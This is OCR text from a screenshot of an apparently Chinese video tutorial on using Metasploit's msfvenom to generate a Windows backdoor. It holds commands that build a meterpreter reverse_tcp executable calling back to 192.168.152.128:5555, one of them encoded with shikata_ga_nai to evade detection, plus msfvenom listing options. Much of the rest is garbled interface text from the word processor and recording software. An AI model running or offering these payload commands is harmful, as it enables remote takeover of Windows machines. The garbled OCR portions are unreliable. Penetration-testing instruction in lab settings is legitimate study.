 生成Windows 后门
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168. 152. 128 lport=5555 -f exe -o /home/kali/payload.exe
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.152.128 lport=5555-i 3 -e x86/shikata_ga_nai -f exe -o /home/kali/payload. exe
Msfvenom
msfvenom --list archs msfvenom --list platforms
查看支持的系统架构
查看支持系统平台
msfvenom -I payload
查看所有可用的 payload
木千七的大山的
页保1页圈：1/2 节：1/1 设置值：11.2厘米
行： 13 孙：44
字数： 203
拼写检查
国文档校对
200%
OBS 25.0.8 (64-b
视频
hongkeketang
36.Metasploit:



ceketang·VMware Workstation
X 编辑（E）
首页
板売模板
36．Metasploit＿etaploit生成后门
37．Metasploit：生成Android后门
+ hongkeketang
✓ 三文件
章节 安全 开发工具 特色功能 Q直找
已间步·＆协作分享 田·奈··
X剪切
炒供
AaBbC AaBbCcDc
AaBbCcD AaBbCeDd 动作
·:
标■4 HTML.. 普通（网站） 默认段...
世
文档助手 文字工具
壹找？換·选择· Msfvenom
+
msfvenom--list archs
查看支持的系统架构 msfvenom--list platforms
查看支持系统平台 msfvenom-I payload
查看所有可用的payloadmsfvenom-I formats
查看所有的输出格式 msfvenom-I encrypt
查看所有的加密方式 msfvenom-I encoders I
查看所有的编码器
88 设查值：12.9厘米
行：16 列：38
字数：2／203拼写检查
